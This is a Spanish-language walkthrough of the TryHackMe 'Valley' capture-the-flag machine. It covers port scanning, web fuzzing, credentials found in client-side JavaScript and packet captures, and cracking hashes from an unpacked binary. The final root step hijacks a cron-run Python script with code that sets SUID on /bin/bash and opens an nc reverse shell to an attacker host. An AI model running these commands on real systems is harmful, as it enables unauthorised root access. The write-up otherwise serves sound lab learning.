# Valley

En esta maquina se basa en la enumeración de la web para obtener credenciales al servidor `ftp` en el cual encontraremos unos archivos que debemos analizar con `wireshark` para obtner credenciales que te permitiran acceder por el servicio `ssh` para luego obtner un binario que en lo permosnal analice con `ghidra`


* Link [Valley](https://tryhackme.com/room/valleype)
* Created by  [tryhackme](https://tryhackme.com/p/tryhackme) and  [valley](https://tryhackme.com/p/valley)

## Walkthrough

### Enumeración

***

#### Escaneo de puertos

Iniciamos con nuestra herramienta preferida a escanear los puerto de la maquina victima.

```java
❯ nmap -p- --open --min-rate 1000 -vvv [IP-VICTIM] -Pn -n  -oG allportsScan
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
37370/tcp open  unknown syn-ack
```

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo. Para entender un poco mas de los parametros que lanzamos con `nmap` podemos leer un poco lo siguiente:

`-p-`: Esta opción indica a Nmap que escanee todos los puertos en lugar de un rango específico. El guion ("-") significa "todos los puertos". Esto permite escanear todos los puertos desde el puerto 1 hasta el 65535.

`--open`: Esta opción le dice a Nmap que solo muestre los puertos que están abiertos. Los puertos abiertos son aquellos en los que un servicio está escuchando y aceptando conexiones.

`--min-rate 1000`: Esto establece la velocidad mínima de escaneo en 1000 paquetes por segundo. Cuanto mayor sea la velocidad de escaneo, más rápido se completará el escaneo, pero ten en cuenta que un escaneo más rápido puede ser más intrusivo y podría llamar la atención no deseada.

`[IP-VICTIM]`: Esta es la dirección IP del objetivo que se va a escanear. Debes reemplazarla por la dirección IP que deseas escanear.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Puedes usar esto si sabes que el host objetivo no responde a los paquetes de Ping.

`-n`: Esta opción le dice a Nmap que no realice la resolución de nombres DNS. Puedes usarlo si no deseas que Nmap realice búsquedas DNS inversas durante el escaneo.

`-oG allportsScan`: Esta opción le indica a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "allportsScan". Este archivo contendrá información detallada sobre los puertos abiertos y otros detalles del escaneo.

Teniendo los puertos abiertos, vamos a enumerar los servicios y versiones que se ejecutan en los puertos abiertos

```java
❯ nmap -p22,80,37370 -sC -sV -Pn -vvv [IP-VICTIM] -oN servicesScan
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2:84:2a:c1:22:5a:10:f1:66:16:dd:a0:f6:04:62:95 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCf7Zvn7fOyAWUwEI2aH/k8AyPehxzzuNC1v4AAlhDa4Off4085gRIH/EXpjOoZSBvo8magsCH32JaKMMc59FSK4canP2I0VrXwkEX0F8PjA1TV4qgqXJI0zNVwFrfBORDdlCPNYiqRNFp1vaxTqLOFuHt5r34134yRwczxTsD4Uf9Z6c7Yzr0GV6NL3baGHDeSZ/msTiFKFzLTTKbFkbU4SQYc7jIWjl0ylQ6qtWivBiavEWTwkHHKWGg9WEdFpU2zjeYTrDNnaEfouD67dXznI+FiiTiFf4KC9/1C+msppC0o77nxTGI0352wtBV9KjTU/Aja+zSTMDxoGVvo/BabczvRCTwhXxzVpWNe3YTGeoNESyUGLKA6kUBfFNICrJD2JR7pXYKuZVwpJUUCpy5n6MetnonUo0SoMg/fzqMWw2nCZOpKzVo9OdD8R/ZTnX/iQKGNNvgD7RkbxxFK5OA9TlvfvuRUQQaQP7+UctsaqG2F9gUfWorSdizFwfdKvRU=
|   256 42:9e:2f:f6:3e:5a:db:51:99:62:71:c4:8c:22:3e:bb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNIiJc4hdfcu/HtdZN1fyz/hU1SgSas1Lk/ncNc9UkfSDG2SQziJ/5SEj1AQhK0T4NdVeaMSDEunQnrmD1tJ9hg=
|   256 2e:a0:a5:6c:d9:83:e0:01:6c:b9:8a:60:9b:63:86:72 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZhkboYdSkdR3n1G4sQtN4uO3hy89JxYkizKi6Sd/Ky
80/tcp    open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
37370/tcp open  ftp     syn-ack vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
```

`-p22,80,37370` : Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22,80 y 37370 . Los números de puerto están separados por comas y no se utiliza el rango de puertos.

`-sV`: Esta opción realiza la detección de versiones de servicios. Nmap intentará determinar qué servicios se están ejecutando en los puertos especificados y mostrará información sobre las versiones de esos servicios.

`-sC`: Activa los scripts de secuencia de comandos (scripts de automatización) de Nmap. Esto permite que Nmap ejecute scripts de detección y enumeración de servicios en los puertos especificados.

`-Pn`: Esta opción indica a Nmap que no realice el descubrimiento de hosts (Ping) antes de escanear los puertos. Si no se puede contactar con el host a través de Ping, Nmap aún intentará escanear los puertos especificados.

`-vvv`: Esto establece el nivel de verbosidad del escaneo en "muy alto". Esto significa que Nmap proporcionará una salida detallada que incluye información adicional sobre el progreso del escaneo.

`[IP-VICTIM]`: Debes reemplazar \[IP-VICTIM] con la dirección IP del objetivo que deseas escanear. Este es el host en el que se realizará el escaneo.

`-oN servicesScan`: Esta opción le dice a Nmap que genere la salida en formato "greppable" (Grep) y la guarde en un archivo llamado "servicesScan". Este archivo contendrá información detallada sobre los servicios y versiones detectadas en los puertos especificados.

#### Puerto 80

Iniciamos a enumerar el puerto 80 y nos encontramos con el sitio web



en este sitio web realizaremos `fuzzing` para descubrir directorios que no podemos ver de primera

```java
❯ wfuzz -c -f directoryWeb,raw -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://[IP-VICTIM]/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://[IP-VICTIM]/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000168:   301        9 L      28 W       316 Ch      "gallery"   
000000269:   301        9 L      28 W       315 Ch      "static"
000000773:   301        9 L      28 W       316 Ch      "pricing"  
```

En el directorio `static` se encuentran las imagenes, la cual tambien realizaremos un descubrimiento de directorios haciendo uso de `gobuster`

```java
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://[IP-VICTIM]/static/ -t 100 -x txt,html,php

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://[IP-VICTIM]/static/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/3                    (Status: 200) [Size: 421858]
/11                   (Status: 200) [Size: 627909]
/9                    (Status: 200) [Size: 1190575]
/12                   (Status: 200) [Size: 2203486]
/00                   (Status: 200) [Size: 127]
```

Encontramos un directorio que es `00` la cual existe y no la revisamos. Revisando el direcotio nos encontramos lo siguiente:



Observamos un directorio `http://[IP-VICTIM]/dev1243224123123/` en el cueñ tenemos un panel de login



Observando el codigo fuente podemos encotrar la siguiente ruta:`http://[IP-VICTIM]/dev1243224123123/dev.js` en la que encontramos un script en javascript



Aqui tienes una copia del script de `javascript`

```js
const loginForm = document.getElementById("login-form");
const loginButton = document.getElementById("login-form-submit");
const loginErrorMsg = document.getElementById("login-error-msg");
loginForm.style.border = '2px solid #ccc';
loginForm.style.padding = '20px';
loginButton.style.backgroundColor = '#007bff';
loginButton.style.border = 'none';
loginButton.style.borderRadius = '5px';
loginButton.style.color = '#fff';
loginButton.style.cursor = 'pointer';
loginButton.style.padding = '10px';
loginButton.style.marginTop = '10px';


function isValidUsername(username) {
	if(username.length < 5) {
	console.log("Username is valid");
	}
	else {
	console.log("Invalid Username");
	}
}

function isValidPassword(password) {
	if(password.length < 7) {
        console.log("Password is valid");
        }
        else {
        console.log("Invalid Password");
        }
}

function showErrorMessage(element, message) {
  const error = element.parentElement.querySelector('.error');
  error.textContent = message;
  error.style.display = 'block';
}

loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;
    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

Haciendo uso de las credenciales podemos iniciar sesion que nos re dirigue a una ruta `http://[IP-VICTIM]/dev1243224123123/devNotes37370.txt` en donde encontraremos unas notas



### Explotación

***

#### FTP

Haciendo uso de las credenciales que encontramos iniciaremos sesión por el servicio `ftp`

```java
❯ ftp [IP-VICTIM] -p 37370
Connected to [IP-VICTIM].
220 (vsFTPd 3.0.3)
Name ([IP-VICTIM]:b0ysie7e): siemDev
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Una vez iniciado sesión, encontraremos unos archivos `.pcapng`, los cuales los descargaremos a nuestra máquina atacante

#### Wireshark



Ahora analizaremos los paquetes con `wireshark`. En el archivo `siemHTTP2.pcapng` encontraremos unas credenciales que fueron usadas para iniciar sesiones



Las credenciales que encontramos son: `valleyDev: ph0t0s1234`

### Escalada de privilegios

#### Usuario - valleyDev



Enumerando encontraremos un usuario `siemDev`, pero si recordamos encontramos unas credenciales de este usuario por la que las reusaremos `siemDev: california`

#### Usuario - siemDev



Con el usuario actual podemos enumerar las tareas que se ejecutan, haciendo uso del siguiente comando: `cat /etc/crontab`



El script que se ejecuta es el siguiente:

```python
siemDev@valley:/home$ cat /photos/script/photosEncrypt.py
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
   image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
   with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
   encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
   output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
   with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)

```

No podemos hacer mucho con este `script`, porque solo podemos leer.

En el directorio de l usuario tenemos un binario `valleyAuthenticator` que nos descargaremos para analizarlos en nuestra máquina de atacante.

**Ghidra**

Abrimos el binario con `ghidra` y haciendo uso de `search strings` de ghidra, podemos ver lo siguiente



En los strings nos dan un mensaje de que usemos `upx`, el cual permite desempaquetar aun mas el binario

Descomprimimos con `upx -d valleyAuthenticator`



Ahora podemos hacer uso de `search strigns` de ghidra y ahora si podemos ver unos hashes



* `e6722920bab2326f8217e4bf6b1b58ac`
* `dd2921cc76ee3abfd2beb60709056cfb`

Una vez teniendo los hashes haremos uso de [crackstation](https://crackstation.net/) para crackearlos



Las credenciales que obtenemos son: `valley: liberty123`. Haremos uso de estas credenciales para loguearnos como `valley`.

#### Usuario - valley



Enumerando los permisos del usario vemos que este usario pertenece a un grupo llamdado `valleAdmin`



Ahora buscaremos archivos que el grupo puede ejecutar

```java
valley@valley:/home$ find / -group valleyAdmin 2>/dev/null
```



Tenemos permiso de escritura del script `base64.py`, por lo que podemos hacer uso de este script para elevar nuestros privilegios.

```python
siemDev@valley:/home$ cat /photos/script/photosEncrypt.py
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
   image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
   with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
   encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
   output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
   with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)

```

Agregamos el siguiente codigo de python

```python
import os

os.system("chmod u+s /bin/bash")
os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP-ATTACKER 443 >/tmp/f')
```

Con `os.system("chmod u+s /bin/bash")` cambiaremos los privilegios de la `bash` y con `os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP-ATTACKER 443 >/tmp/f')` obtendremos nuestra shell



Para obtener nuestra shell, recordemos que habia un script que se ejecuta cada determinado tiempo, luego de un minuto podemos observar que la `/bin/bash` con permisos `SUID`



#### Usuario root

Ponemos a la escucha `ncat` y recibiremos una shell



¡VAMOS!

Happy hacking :)
